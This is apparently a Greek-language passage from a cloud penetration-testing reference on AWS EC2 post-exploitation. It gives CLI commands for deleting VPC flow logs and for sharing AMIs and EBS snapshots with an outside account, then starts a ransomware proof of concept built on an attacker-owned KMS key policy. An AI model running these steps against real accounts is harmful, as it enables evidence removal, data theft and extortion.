 Για [**περισσότερες πληροφορίες ελέγξτε αυτό**](../../aws-privilege-escalation/aws-ec2-privesc.md#privesc-to-ecs).

### Αφαίρεση καταγραφής ροής VPC

```bash
aws ec2 delete-flow-logs --flow-log-ids <flow_log_ids> --region <region>
```

### Κοινοποίηση AMI

{% code overflow="wrap" %}
```
```
{% endcode %}

```bash
aws ec2 modify-image-attribute --image-id <image_ID> --launch-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```

### Κοινοποίηση EBS Snapshot

{% code overflow="wrap" %}
```bash
aws ec2 modify-snapshot-attribute --snapshot-id <snapshot_ID> --create-volume-permission "Add=[{UserId=<recipient_account_ID>}]" --region <AWS_region>
```
{% endcode %}

### EBS Ransomware PoC

Ένα proof of concept παρόμοιο με την επίδειξη του Ransomware που παρουσιάστηκε στις σημειώσεις post-exploitation του S3. Το KMS θα πρέπει να μετονομαστεί σε RMS για Ransomware Management Service, με τον τρόπο που είναι τόσο εύκολο να χρησιμοποιηθεί για την κρυπτογράφηση διάφορων υπηρεσιών του AWS.

Πρώτα, από έναν λογαριασμό AWS 'επιτιθέμενου', δημιουργήστε έναν πελάτη διαχειριζόμενο κλειδί στο KMS. Για αυτό το παράδειγμα, απλά θα αφήσουμε το AWS να διαχειριστεί τα δεδομένα του κλειδιού για εμένα, αλλά σε ένα ρεαλιστικό σενάριο, ένας κακόβουλος δράστης θα κρατούσε τα δεδομένα του κλειδιού εκτός ελέγχου του AWS. Αλλάξτε την πολιτική του κλειδιού για να επιτρέπει σε οποιονδήποτε λογαριασμό AWS Principal να χρησιμοποιεί το κλειδί. Για αυτήν την πολιτική κλειδιού, το όνομα του λογαριασμού ήταν 'AttackSim' και ο κανόνας πολιτικής που επιτρέπει όλη την πρόσβαση ονομάζεται 'Outside Encryption'.

```
{
"Version": "2012-10-17",
"Id": "key-consolepolicy-3",
"Statement": [
{
"Sid": "Enable IAM User Permissions",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:root"
},
"Action": "kms:*",
"Resource": "*"
},
{
"Sid": "Allow access for Key Administrators",
"Effect": "Allow",
"Principal": {
"AWS": "arn:aws:iam::[Your AWS Account Id]:user/AttackSim"
},
"Action": [
"kms:Create*",
"kms:Describe*",
```